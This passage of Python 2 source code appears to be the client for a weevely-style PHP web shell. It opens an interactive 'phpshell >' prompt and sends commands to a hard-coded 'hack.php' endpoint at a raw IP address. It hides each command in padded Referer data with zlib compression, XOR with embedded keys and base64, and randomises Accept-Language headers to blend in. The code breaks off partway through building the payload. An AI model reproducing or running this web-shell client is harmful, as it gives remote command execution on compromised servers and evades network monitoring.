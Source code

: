 ```python
    lenTxt = len(text)
    iTxt = 0
    while iTxt < lenTxt:
        iKey = 0
        while iTxt<lenTxt and iKey<lenKey:
            result += chr(ord(key[iKey]) ^ ord(text[iTxt]))
            iTxt += 1
            iKey += 1
    return result


def debugPrint(msg):
    if debugging:
        print msg

# config
debugging = False
keyh = "42f7" # $kh
keyf = "e9ac" # $kf
xorKey = keyh + keyf
url = 'http://111.198.29.45:46283/hack.php'
defaultLang = 'zh-CN'
languages = ['zh-TW;q=0.%d','zh-HK;q=0.%d','en-US;q=0.%d','en;q=0.%d']
proxies = None # {'http':'http://127.0.0.1:8080'} # proxy for debug

sess = requests.Session()

# generate random Accept-Language only once each session
langTmp = choicePart(languages,3)
indexes = sorted(choicePart(range(1,10),3), reverse=True)

acceptLang = [defaultLang]
for i in xrange(3):
    acceptLang.append(langTmp[i] % (indexes[i],))
acceptLangStr = ','.join(acceptLang)
debugPrint(acceptLangStr)

init2Char = acceptLang[0][0] + acceptLang[1][0] # $i
md5head = (md5(init2Char + keyh).hexdigest())[0:3]
md5tail = (md5(init2Char + keyf).hexdigest())[0:3] + randAlpha(randint(3,8))
debugPrint('$i is %s' % (init2Char))
debugPrint('md5 head: %s' % (md5head,))
debugPrint('md5 tail: %s' % (md5tail,))

# Interactive php shell
cmd = raw_input('phpshell > ')
while cmd != '':
    # build junk data in referer
    query = []
    for i in xrange(max(indexes)+1+randint(0,2)):
        key = randAlpha(randint(3,6))
        value = base64.urlsafe_b64encode(randBytesFlow(randint(3,12)))
        query.append((key, value))
    debugPrint('Before insert payload:')
    debugPrint(query)
    debugPrint(urllib.urlencode(query))

    # encode payload
    payload = zlib.compress(cmd)
    payload = loopXor(payload,xorKey)
    payload = base64.urlsafe_b64encode(payload)
    payload = md5head + payload

```